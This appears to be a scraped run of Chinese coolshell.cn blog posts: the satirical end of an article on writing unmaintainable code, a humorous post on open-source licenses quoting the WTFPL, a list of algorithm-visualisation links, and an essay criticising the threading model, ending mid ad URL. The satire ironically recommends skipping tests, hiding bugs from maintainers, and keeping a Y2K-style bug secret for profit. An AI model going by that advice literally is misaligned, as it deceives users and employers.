- **永远不做性能测试**。如果不够快就告诉用户换一个更快的机器。如果你一做测试，那么就可能会要改你的算法，甚至重设计，重新架构。
- **不要写测试案例**。不要做什么代码覆盖率测试，自动化测试。
- **测试是懦夫行为**。一个勇敢的程序员是根本不需要这一步的。太多的程序太害怕他们的老板，害怕失去工作，害怕用户抱怨，甚至被起诉。这种担心害怕直接影响了生产力。如果你对你的代码有强大的信心，那还要什么测试呢？真正的程序员是不需要测试自己的代码的。

#### 其它

- **你的老板什么都知道**。无论你的老板有多SB，你都要严格地遵照他的旨意办事，这样一来，你会学到更多的知识如何写出无法维护的代码来的。
- **颠覆Help Desk**。你要确保你那满是bug的程序永远不要被维护团队知道。当用户打电话和写邮件给你的时候，你就不要理会，就算要理会，让用户重做系统或是告诉用户其帐号有问题，是标准的回答。
- **闭嘴**。对于一些像y2k这样的大bug，你要学会守口如瓶，不要告诉任何人，包括你的亲人好友以及公司的同事和管理层，这样当到那一天的时候，你就可以用这个bug挣钱了。
- **忽悠**。你会学会忽悠，就算你的代码写得很烂，你也要为其挂上GoF设计模式的标签，就算你的项目做得再烂，你也要为其挂上敏捷的标签，只有学会[像中国Thoughtworks的咨询师那样去忽悠](https://coolshell.cn/articles/3745.html)，你才能学会更炫更酷的方法，让整个团队和公司，甚至整个业界都开始躁动，这样才能真正为难维护的代码铺平道路。

这个文档中还有很多很多，实在是太TMD强大了，大家自己去看看吧。有精力有能力的朋友不妨把其翻译成中文。

总之，我们的口号是——

#### Write Everywhere, Read Nowhere

（全文完）

# 狗日的开源软件许可证

#####  [2011年05月04日 ](https://coolshell.cn/articles/4657.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [23 条评论](https://coolshell.cn/articles/4657.html#comments) 29,871 人阅读

你知道这个世上有多少种开源软件的许可证吗？GPL，BSD，MIT，Apache？GNU上有个网页，上面[记录了几乎所有的开源软件的许可证](http://www.gnu.org/licenses/license-list.html)，真TMD的多，有开源的，有商用的，有软件的，有文档的，多得你都不想看了，天杀的，程序员们还真能鼓捣啊。不过，主流的也就几种——[GPL](http://www.gnu.org/licenses/gpl.html)、[BSD](https://en.wikipedia.org/wiki/BSD_licenses)、[MIT](https://en.wikipedia.org/wiki/MIT_License)、[Mozilla](http://www.mozilla.org/MPL/)、[Apache](http://www.apache.org/licenses/LICENSE-2.0)等等。

那么，你知道怎么区别他们吧？怎么选择他们吗？这里有一张比较复杂的图，在调侃这些纷繁的许可证（我不翻译了，这个图属于是发泄不满）

[](https://coolshell.cn/wp-content/uploads/2011/05/OSS-License.jpg)

下面是另一个图，这个图[来自这里](http://pbagwl.com/post/5078147450/description-of-popular-software-licenses)，这个图并不恶搞，但其非常简单地说明了如何选择一个开源的许可证：


[](https://coolshell.cn/wp-content/uploads/2011/05/Infographic-of-popular-software-licenses.jpg)

最后，正如[那些BT雷人的程序语言](https://coolshell.cn/articles/4458.html)一样，我想介绍两个比较独特的开源软件许可证给你，以辉映本文的标题——

#### 1、WTFPL

[WTFPL](http://sam.zoy.org/wtfpl/COPYING)全称 What The Fuck Public License，这个许可证单从名字上就那么NB了，其许可证如下，相当的短，完全的自由，你的开源软件有自信用这个许可证吗？

```
            DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE
                    Version 2, December 2004

 Copyright (C) 2004 Sam Hocevar <sam@hocevar.net>

 Everyone is permitted to copy and distribute verbatim or modified
 copies of this license document, and changing it is allowed as long
 as the name is changed.

            DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE
   TERMS AND CONDITIONS FOR COPYING, DISTRIBUTION AND MODIFICATION

  0. You just DO WHAT THE FUCK YOU WANT TO.
```

最后那句——You just DO WHAT THE FUCK YOU WANT TO 真是铿锵有力，怎么说怎么痛快，很有一种在看美国大片的感觉。这是我喜欢这个许可证的原因之一，即不限制你控制版权，也不限制你放弃版权！

#### 2、DBAD

[DBAD](https://github.com/SFEley/candy/blob/2f964916961a2dcccbb374cd389520ac2ac62226/LICENSE.markdown)全称 Don’t Be A Dick，dick是什么我就不解释了，你自己查字典吧。这个许可证中定义了什么是dick，

> A person who *does not* respect the time and energy that have been invested in the Project, ……. A Dick is nearly always selfish, but not necessarily with deliberate intent; some Dicks are merely thoughtless. ……

也就是项目中扯淡的人。这个许可证最NB的地方在于其不限制软件的版权，而是限制了软件开发中的人的行为。我真是太喜欢这个许可证了。（请参看其第四节Limitation ）

（全文完）

# 可视化的数据结构和算法

#####  [2011年05月04日 ](https://coolshell.cn/articles/4671.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [50 条评论](https://coolshell.cn/articles/4671.html#comments) 84,170 人阅读

还记得之前发布过的那个[关于可视化排序](https://coolshell.cn/articles/3933.html)的文章吗？在网上又看到了一个旧金山大学[David Galles](http://www.cs.usfca.edu/galles)做的各种可视化的数据结构和基本算法的主页，[网址在这里](http://www.cs.usfca.edu/~galles/visualization/Algorithms.html)，大家可以看看。我把这个页面的目录列在下面并翻译了一下，大家可以直接点击了。

不知道国内的教育有没有相关的教学课件，至少在我大学的时候是没有的。

目录


[基础](https://coolshell.cn/articles/4671.html#基础)[索引](https://coolshell.cn/articles/4671.html#索引)[排序](https://coolshell.cn/articles/4671.html#排序)[堆数据结构](https://coolshell.cn/articles/4671.html#堆数据结构)[图 算法](https://coolshell.cn/articles/4671.html#图_算法)[动态编程](https://coolshell.cn/articles/4671.html#动态编程)[其它…](https://coolshell.cn/articles/4671.html#其它…)

#### 基础

- [Stack栈: 数组实现](http://www.cs.usfca.edu/~galles/visualization/StackArray.html)
- [Stack栈: 链表实现](http://www.cs.usfca.edu/~galles/visualization/StackLL.html)
- [Queues队列: 数组实现](http://www.cs.usfca.edu/~galles/visualization/QueueArray.html)
- [Queues队列: 链表实现](http://www.cs.usfca.edu/~galles/visualization/QueueLL.html)
- Lists列表: 数组实现 ( [java](http://www.cs.usfca.edu/~galles/visualization/java/visualization.html) 版演示)
- Lists列表: 链表实现 ( [java](http://www.cs.usfca.edu/~galles/visualization/java/visualization.html) 版演示)

#### 索引

- [Binary Search Trees](http://www.cs.usfca.edu/~galles/visualization/BST.html) 二叉检索树
- [AVL Trees (平衡二叉检索树)](http://www.cs.usfca.edu/~galles/visualization/AVLTree.html)
- Red-Black Trees 红黑树 ( [flash](http://www.cs.usfca.edu/~galles/visualization/flash.html) 版本演示)
- [Open Hash Tables 开放哈希表(Closed Addressing 链地址法)](http://www.cs.usfca.edu/~galles/visualization/OpenHash.html)
- [Closed Hash Tables  闭合哈希表 (Open Addressing 开放定址法)](http://www.cs.usfca.edu/~galles/visualization/ClosedHash.html)
- [Closed Hash Tables, using buckets](http://www.cs.usfca.edu/~galles/visualization/ClosedHashBucket.html) 使用桶
- [B Trees](http://www.cs.usfca.edu/~galles/visualization/BTree.html) B树
- [B+ Trees](http://www.cs.usfca.edu/~galles/visualization/BPlusTree.html) B+树


排序


- Comparison Sorting

   

  比较式排序

  - Bubble Sort 冒泡排序
  - Selection Sort 选择排序
  - Insertion Sort 插入排序
  - Shell Sort 希尔排序
  - Merge Sort 归并排序
  - Quck Sort 快速排序

- [Bucket Sort](http://www.cs.usfca.edu/~galles/visualization/BucketSort.html) 桶排序

- [Counting Sort](http://www.cs.usfca.edu/~galles/visualization/CountingSort.html) 计数排序

- [Radix Sort](http://www.cs.usfca.edu/~galles/visualization/RadixSort.html) 基数排序

#### 堆数据结构

- [Heaps](http://www.cs.usfca.edu/~galles/visualization/Heap.html) 堆
- [Binomial Queues](http://www.cs.usfca.edu/~galles/visualization/BinomialQueue.html) 二项队列

#### 图 算法

- [Breadth-First Search](http://www.cs.usfca.edu/~galles/visualization/BFS.html) 广度优先搜索
- [Depth-First Search](http://www.cs.usfca.edu/~galles/visualization/DFS.html) 深度优先搜索
- [Connected Components](http://www.cs.usfca.edu/~galles/visualization/ConnectedComponent.html) 连通性
- [Dijkstra’s Shortest Path](http://www.cs.usfca.edu/~galles/visualization/Dijkstra.html) Dijkstra最短路径
- [Prim’s Minimum Cost Spanning Tree](http://www.cs.usfca.edu/~galles/visualization/Prim.html) 最小生成树
- Topological Sort  拓扑排序 ( [flash](http://www.cs.usfca.edu/~galles/visualization/flash.html) 版本演示  [java](http://www.cs.usfca.edu/~galles/visualization/java/visualization.html) 版本演示)
- Floyd-Warshall 算法(解决任意两点间的最短路径的一种算法) ([flash](http://www.cs.usfca.edu/~galles/visualization/flash.html) 版本演示 [java](http://www.cs.usfca.edu/~galles/visualization/java/visualization.html) 版本演示)
- 基于*Kruskal*算法的最小生成树的构建 ( [flash](http://www.cs.usfca.edu/~galles/visualization/flash.html) 版本演示 [java](http://www.cs.usfca.edu/~galles/visualization/java/visualization.html) 版本演示)

#### 动态编程

- 计算 Fibonacci 数 ( [java](http://www.cs.usfca.edu/~galles/visualization/java/visualization.html) 版本演示)

#### 其它…

- [Disjoint Sets](http://www.cs.usfca.edu/~galles/visualization/DisjointSets.html) （MIT算法公开课中有一课讨论的是这个，见[网易公开课](http://v.163.com/movie/2010/12/V/E/M6UTT5U0I_M6V2UDUVE.html)）
- Huffman Coding 哈夫曼编码 ( [java](http://www.cs.usfca.edu/~galles/visualization/java/visualization.html) 版本演示)

（全文完）

# 读书笔记：对线程模型的批评

#####  [2011年05月03日 ](https://coolshell.cn/articles/4626.html) [Ian.Sino](https://coolshell.cn/articles/author/ian-sino) 评论 [37 条评论](https://coolshell.cn/articles/4626.html#comments) 32,680 人阅读

**——感谢Ian.Sian投递本文——**

多线程模型是主流的并发编程模型。在过去几十年来，多线程模型一直是开发并发程序的有力工具。然而，它的历史并非总那么美好。1997年，NASA 的“火星探路者”号在执行任务的途中遭遇了严重的时序异常（参见 “[What really happend on Mars](http://research.microsoft.com/en-us/um/people/mbj/mars_pathfinder/mars_pathfinder.html)“，注目 follow-up 中的[现身说法](http://research.microsoft.com/en-us/um/people/mbj/mars_pathfinder/Authoritative_Account.html)），无法发回探测数据。如果不是 NASA 远程刷新了程序，它的结局就只能是报废在火星上。这一切都是由程序中潜藏的一个优先级反转 bug 造成的。更早的例子还有80年代的一系列 [Therac-25](https://en.wikipedia.org/wiki/Therac-25) 型医用粒子加速器事故。在这些加速器释放出的过量辐射照射之下，数位病人死亡。事后调查显示，至少有一次发生事故的原因，是加速器的控制软件中，存在一个只能由特定操作序列引发的竞争条件 bug。你也许认为这些只是陈年往事，但是直到现在，即便是世界500强公司们高价买来的信息系统，也同样避免不了这些问题。这导致许多程序员认为线程是个潘多拉魔盒，对它采取能躲就躲的态度。然而近来计算机的发展使得躲猫猫的空间越来越小：随便从市场上淘一个CPU，它里面也有不止一个核心。未来的程序员只会有越来越多的机会接触到并发编程，而无法再独善其身了。

加州大学伯克利分校教授，[爱德华 A. 李](http://ptolemy.eecs.berkeley.edu/~eal/)在2006年做了一次题为[《线程的麻烦 (The Problem with Threads)》](http://www.eecs.berkeley.edu/Pubs/TechRpts/2006/EECS-2006-1.html)的学术报告。在报告中他提到：看上去，多线程只是对核心语言的小小扩展，甚至可以以第三方库的形式存在。但实质上，多线程程序和原有的核心语言编写的程序已经完全不同了。其原因在于，由于多线程程序可能以任意的次序交错执行，程序再也无法像顺序执行时那样产生确定的结果。多线程程序容易编写(因为写的是顺序程序)，但是难分析，难调试，更容易出错。

<iframe id="aswift_5" name="aswift_5" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=4096334561&amp;adf=1377895721&amp;pi=t.aa~a.425447425~i.5~rp.4&amp;daaos=1684125332196&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684155759&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4626.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChEI8LCHowYQ1PStmYmQo8OEARI5ANXa3bh0jweA9AUmjspzRWMRHWBPQa4OAa6zJ4FDsjoP4qCkNH-8HQt-kIClWe7MSZHgyfnLMN7h&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684159184458&amp;bpp=1&amp;bdt=1714&amp;idt=1&amp;shv=r20230510&amp;mjsv=m202305090101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D636439885c84b7b2-22e35244cfe000aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaJKZKQuAMegGx6VagtAFLZRKMVVw&amp;gpic=UID%3D00000c06349594aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaPFfB0uijUu4CzHZxIMtKnmGEWwA&amp;prev_fmts=0x0%2C1200x280%2C704x280&amp;nras=4&amp;correlator=4352937574990&amp;frm=20&amp;pv=1&amp;ga_vid=1696476649.1684158276&amp;ga_sid=1684158276&amp;ga_hid=1165822772&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=1403&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=151&amp;eid=44773809%2C44759926%2C44759837%2C44759875%2C31071756%2C31074469%2C31074546%2C44772269%2C44788442%2C44790154%2C44789334&amp;oid=2&amp;pvsid=1981031163105539&amp;tmod=1738974273&amp;uas=3&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F26&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=6&amp;uci=a!6&amp;btvi=2&amp;fsb=1&amp;xpc=OchXEbYqSO&amp;p=https%3A//coolshell.cn&amp;dtd=80" data-google-container-id="a!6" data-google-query-id="CKiwuO-99_4CFQVlYAodpxYADw" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

在我的想法中，产生问题的根源，是多线程模型作为对并发问题的一个抽象，是很不完善的。抽象的实质是对问题的转换。我们可以把抽象应用于一个问题，把它转换成另一个（或许）更简单的问题来解决。解决了转换后的简单问题，就意味着解决了原有的困难问题。严格来说，一个抽象一定要保存原有问题的结构，同时去除无关细节。但是，由于我们生活的世界并没有什么东西是完全“严格”的，现实中使用的抽象有时会隐藏解决问题的关键细节，或者残留一些不该漏出来的东西。评价一个抽象的好坏，也就不止是看它能节省多少代码，和它的界面有多优美这么简单，同时还要看看在一个问题被抽象转换之后，留了下来的细节还能不能好好地解决它。

我们可以从这个意义上理解为什么线程模型是个很糟糕的抽象。一方面，对解决问题很关键的细节（如执行次序）被隐藏起来并受到了粗暴的对待。另一方面，线程模型极力兼容顺序程序的设计思想也使得如共享变量这样的，与线程不兼容的细节依然残留在程序员们的视线之内。我们无力控制程序的执行次序，而我们程序的正确性却依赖于对共享变量的有序变更。可以说，线程提供给我们的抽象简直是千疮百孔。我们还能用它干活，只是因为我们手里还有加锁机制，而它可以部分地堵上线程模型的漏洞。讽刺的是，引入加锁机制解决问题的同时，又带来了新的问题，所以我们编写多线程程序总会遇上死锁，活锁，优先级反转……等等。

<iframe id="aswift_2" name="aswift_2" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=4096334561&amp;adf=1377895721&amp;pi=t.aa~a.425447425~i.9~rp.4&amp;daaos=1684125332196&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684155759&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4626.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChEI8LCHowYQ1PStmYmQo8OEARI5ANXa3bh0jweA9AUmjspzRWMRHWBPQa4OAa6zJ4FDsjoP4qCkNH-8HQt-kIClWe7MSZHgyfnLMN7h&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684159184458&amp;bpp=1&amp;bdt=1715&amp;idt=-M&amp;shv=r20230510&amp;mjsv=m202305090101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D636439885c84b7b2-22e35244cfe000aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaJKZKQuAMegGx6VagtAFLZRKMVVw&amp;gpic=UID%3D00000c06349594aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaPFfB0uijUu4CzHZxIMtKnmGEWwA&amp;prev_fmts=0x0%2C1200x280&amp;nras=3&amp;correlator=4352937574990&amp;frm=20&amp;pv=1&amp;ga_vid=1696476649.1684158276&amp;ga_sid=1684158276&amp;ga_hid=1165822772&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=2226&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=151&amp;eid=44773809%2C44759926%2C44759837%2C44759875%2C31071756%2C31074469%2C31074546%2C44772269%2C44788442%2C44790154%2C44789334&amp;oid=2&amp;pvsid=1981031163105539&amp;tmod=1738974273&amp;uas=3&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F26&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=3&amp;uci=a!3&amp;btvi=1&amp;fsb=1&amp;xpc=6E1GC6kWCX&amp;p=https%3A//coolshell.cn&amp;dtd=46" data-google-container-id="a!3" data-google-query-id="CNzvtu-99_4CFYwEKgodSIAGRA" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

同样作为并发编程问题的抽象，[角色模型](http://c2.com/cgi/wiki?ActorsModel)（Actor Model） 比线程模型好就好在，它的资源分享不像线程模型那样通过共享变量来进行。角色模型中的资源分享只能通过特定的机制（消息传递）来进行。你在角色模型里依然可能犯错误，如你可能制造死锁，也有可能造成优先级反转。但是没有共享变量就意味着没有了竞争条件，所以绝大部分资源也用不着上锁了。这样一来，原先至关重要的细节变得不那么重要，问题就这么解决了。

一般来说，在修复一个糟糕的抽象时，可以采取的策略分如下两类：

- 把造成问题的那部分抽象拿掉，直接露出底层的细节
- 换一个和底层兼容性更好的抽象模型

以 [MapReduce ](https://en.wikipedia.org/wiki/MapReduce)为例，它在解决分布式计算问题时，采取的是第一类策略。与现时流行的做法相反，MapReduce 并不试图制造计算是在单一场所完成的假象(流行话讲叫“云计算”)，相反它需要程序员自己把问题拆分到集群中不同的机器上。同时，它却隐藏了大量其他细节。这种另类策略导致批评 MapReduce “[太底层，不通用](http://databasecolumn.vertica.com/database-innovation/mapreduce-a-major-step-backwards/)” 的声音不绝于耳， 然而这正是 MapReduce 聪明的地方。它放弃面面俱到，集中精力于高效地解决一小类问题（这类问题与排序问题有类似的结构），同时对其他的问题故意视而不见。它的流行证明了这一策略的成功。

角色模型，通信进程（[Communicating Sequential Processes](https://en.wikipedia.org/wiki/Communicating_sequential_processes), CSP），以及函数式编程（FP）在应对并发编程问题时不约而同地选择了第二类策略。它们采用了与并发兼容性更好的抽象。角色模型与通信进程从线程模型的问题中抹去了共享变量，纯粹 FP 则抹掉了“变量”的可变性。CSP 还可以降低程序执行次序的不确定性（因为在CSP中执行次序默认是确定的，不确定性必须在程序设计时显式声明）。由于这些努力，这几种模型都避免了落入线程模型的麻烦中，得到了对并发问题的更优美的解法。我们可以说，这些模型提供的抽象比线程模型的都要好。很遗憾的是，它们尽管优美，但却乏人问津。角色模型与通信进程目前不被任何主流操作系统原生支持（微软在 Windows 7 附带的新并行运行时 [ConcRT ](http://msdn.microsoft.com/en-us/library/dd504870.aspx)中加入了基于角色模型的 Asynchronous Agents Library，使得状况稍微改观了一点）。FP 的年岁几乎和计算机语言的历史一样古老， 但它的市场份额直到现在也小得可怜。

也许一切都是因为线程模型表面上那迷惑人的简单性，以及墨菲定律的变体：布劳尔技术惯性定律（已经成功的技术在新的，更好的技术出现时也会赖着不走）。我们曾经接纳了一个有缺点的解决方案，而现在我们被捆绑在这个方案上了。我们为线程模型写了成百上千万行的代码，而现在这些代码的重量束缚住我们的手脚，使得我们无法前行。

<iframe id="aswift_3" name="aswift_3" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=4096334561&amp;adf=3460499155&amp;pi=t.aa~a.425447425~i.21~rp.4&amp;daaos=1684125332196&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684155759&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4626.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChEI8LCHowYQ1PStmYmQo8OEARI5ANXa3bh0jweA9AUmjspzRWMRHWBPQa4OAa6zJ4FDsjoP4qCkNH-8HQt-kIClWe7MSZHgyfnLMN7h&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684159184447&amp;bpp=1&amp;bdt=1704&amp;idt=1&amp;shv=r20230510&amp;mjsv=m202305090101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D636439885c84b7b2-22e35244cfe000aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaJKZKQuAMegGx6VagtAFLZRKMVVw&amp;gpic=UID%3D00000c06349594aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaPFfB0uijUu4CzHZxIMtKnmGEWwA&amp;prev_fmts=0x0%2C1200x280%2C704x280%2C704x280%2C1447x764%2C1005x124&amp;nras=7&amp;correlator=4352937574990&amp;frm=20&amp;pv=1&amp;ga_vid=1696476649.1684158276&amp;ga_sid=1684158276&amp;ga_hid=1165822772&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=3554&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=549&amp;eid=44773809%2C44759926%2C44759837%2C44759875%2C31071756%2C31074469%2C31074546%2C44772269%2C44788442%2C44790154%2C44789334&amp;oid=2&amp;psts=ABHeCvigO1Gn4PKcVfwBtRnh8mJcFoFVuktYCMNdYjxbsbD6CCFiNbNamqw5u5EcIN--ejaLeC4USTbzjlsvsXGEqPPqw44%2CABHeCvhRHAMAItzaC47xdaey-wlF2U8I9hZ8Ndq5NUwY2E0N92iMLbnLzWLB-I3q4rVxHttBfj6Rv55xUrLb9CqfnWW7t7ZGls81KBahRn-utbveB-ktTw%2CABHeCvjLAyldkRDNJsxZGvIA5IXfBRfRV17Zz_0cevCDOQB-izXTMX8iBwDH9tFZdtaHQXoz-D251k06G_dygjy0BKMmol0V%2CABHeCviF-ggzUBRYLJ1fugJ1bLVT37fLxl_fmspyF55iTQaAgi2_M8GqKPWm8bQZWLMpSwSV05JtaoOXSHw6BdfdVNs-O08W&amp;pvsid=1981031163105539&amp;tmod=1738974273&amp;uas=3&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F26&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=4&amp;uci=a!4&amp;btvi=4&amp;fsb=1&amp;xpc=hbeqqHlRHs&amp;p=https%3A//coolshell.cn&amp;dtd=2789" data-google-container-id="a!4" data-google-query-id="CNaj3fC99_4CFQ0LYAodWCkHeA" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

解决线程模型带来的问题的正确做法，是推广新的，更完善的模型。既然解决问题的阻碍同时来自于新技术的低认知度和现有代码的拖累，很自然地有两个方面的工作要做。一、使得新技术更容易被多数程序员使用，二、想办法让现有的代码和新技术兼容。

在兼容老代码这一头，我们已经有了一些行动。微软在 Windows 7 中提供一个称为[用户模式调度 ](http://msdn.microsoft.com/en-us/library/dd627187(v=vs.85).aspx)(UMS) 的功能。UMS 可以将内核模式的线程转换为用户模式线程，而应用程序可以自己提供一个 UMS 调度器来调度它们。这意味着，我们现在有机会重载掉系统调度器的默认行为，而根据应用自身的特点给出更合理的调度安排来。这个功能可以用在构造更容易使用的并发模型上，这样开发的模型可以与老代码兼容（但 UMS 有一个让人迷惑的限制：只能用在64bit 的Windows 7 版本上）。

<iframe id="aswift_4" name="aswift_4" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=4096334561&amp;adf=2571106917&amp;pi=t.aa~a.425447425~i.25~rp.4&amp;daaos=1684125332196&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684155759&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4626.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChEI8LCHowYQ1PStmYmQo8OEARI5ANXa3bh0jweA9AUmjspzRWMRHWBPQa4OAa6zJ4FDsjoP4qCkNH-8HQt-kIClWe7MSZHgyfnLMN7h&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684159184453&amp;bpp=1&amp;bdt=1710&amp;idt=1&amp;shv=r20230510&amp;mjsv=m202305090101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D636439885c84b7b2-22e35244cfe000aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaJKZKQuAMegGx6VagtAFLZRKMVVw&amp;gpic=UID%3D00000c06349594aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaPFfB0uijUu4CzHZxIMtKnmGEWwA&amp;prev_fmts=0x0%2C1200x280%2C704x280%2C704x280%2C1447x764%2C1005x124%2C704x280&amp;nras=8&amp;correlator=4352937574990&amp;frm=20&amp;pv=1&amp;ga_vid=1696476649.1684158276&amp;ga_sid=1684158276&amp;ga_hid=1165822772&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u